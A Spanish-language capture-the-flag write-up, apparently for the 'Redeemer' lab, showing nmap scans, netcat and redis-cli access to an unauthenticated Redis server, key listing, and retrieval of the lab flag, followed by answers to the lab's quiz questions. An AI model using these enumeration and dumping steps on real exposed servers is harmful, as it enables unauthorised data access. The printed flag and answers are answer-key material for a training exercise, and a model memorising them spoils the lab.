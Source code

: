 # Reedemer WriteUp
#Redis 
#Anonymous
#BasesDeDatos


```java
IP atacante: 10.10.16.133
IP victima:  10.129.195.219
```

`$nmap -p- -Pn -n --min-rate 5000 10.129.195.219`
```java
PORT     STATE SERVICE
6379/tcp open  redis
```

`$sudo nmap -p6379 -sSCV 10.129.195.219`
```java
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

>Redis (**RE**mote **DI**ctionary **OS**Server) es un almacén de clave/valor NoSQL de código abierto, en memoria, que se utiliza principalmente como caché de aplicaciones o base de datos de respuesta rápida.[¹](https://www.ibm.com/mx-es/topics/redis)

>La arquitectura de Redis es tipo cliente-servidor, pueden estar en el mismo nodo o estar distribuidos.  
>El servidor se encarga de almacenar datos en memoria.
>El cliente puede tratarse de la **Redis CLI**: su herramienta de consola, o bien una API. 
>La replicación (duplicación de datos) en Redis es de tipo **maestro-esclavo**.
>Cada servidor puede tener varias réplicas, que además de lecturas, también pueden configurarse para aceptar escrituras.[²](https://aprenderbigdata.com/redis/)

Vemos algo importante, habla de **redis-cli**, indagando en hacktricks podemos ver esto:

>Redis es un protocolo basado en texto. Envía el comando en un socket y los valores devueltos serán legibles. Puede ejecutarse con SSL/TLS (aunque esto es bastante inusual). En una instancia normal de Redis, puedes conectarte usando nc o también puedes usar redis-cli:
>>`nc -vn 10.10.10.10 6379`
>>`redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools`

Comenzamos a probar lentamente y después jugamos con la herramienta.
Pero hablando del `cli`, muy fácilmente logramos hacer una key de prueba:
```java
10.129.195.219:6379> SET my_key Tumama
OK
10.129.195.219:6379> get my_key
"Tumama"
10.129.195.219:6379> 
```

Tomando en cuenta la opción mediante `nc` (Banner Grab), también podemos enumerar información.
`$nc -vn 10.129.195.219 6379`
```java
(UNKNOWN) [10.129.195.219] 6379 (redis) open
INFO
$3295
# Server
redis_version:5.0.7
...
```

Listaremos las bases de datos y número de claves con `INFO keyspace`, donde la cantidad incluye la key que creamos, no parece de mucha utilidad, tal vez para después.
```java
INFO keyspace
$44
# Keyspace
db0:keys=5,expires=0,avg_ttl=0
```

Uno de los comandos para explotar información es `KEYS *`. Y obtenemos información interesante:
```java
KEYS *
*5
$4
temp
$4
flag
$6
my_key
$4
stor
$4
numb
```

Podemos notar que está nuestra llave de prueba y la podemos leer. Lo mismo con la flag.
```java
get  my_key
$6
Tumama
get flag
$32
t3L4c0M15t3eNT3r4953eb03e1d2b376
```

Preguntas
1. ¿Qué puerto TCP está abierto en la máquina?
	  6379
2. ¿Qué servicio se ejecuta en el puerto abierto de la máquina?
	  redis
3. ¿Qué tipo de base de datos es Redis? Elija entre las siguientes opciones: (i) Base de datos en memoria, (ii) Base de datos tradicional.
	  i
4. ¿Qué utilidad de línea de comandos se utiliza para interactuar con el servidor Redis? Introduzca el nombre del programa que introduciría en la terminal sin argumentos.
	  redis-cli
5. ¿Qué flag se utiliza con la utilidad de línea de comandos de Redis para especificar el nombre de host?
	  -h
6. Una vez conectado a un servidor Redis, ¿qué comando se utiliza para obtener la información y las estadísticas sobre el servidor Redis?
	  info
7. ¿Cuál es la versión del servidor Redis que se utiliza en la máquina de destino?
	  5.0.7
8. ¿Qué comando se utiliza para seleccionar la base de datos deseada en Redis?
	  select
9. ¿Cuántas claves hay dentro de la base de datos con índice 0?
	  En la salida obtuvimos 5 por la modificación, la respuesta esperada es 4.
10. ¿Qué comando se utiliza para obtener todas las claves de una base de datos?
	  keys *
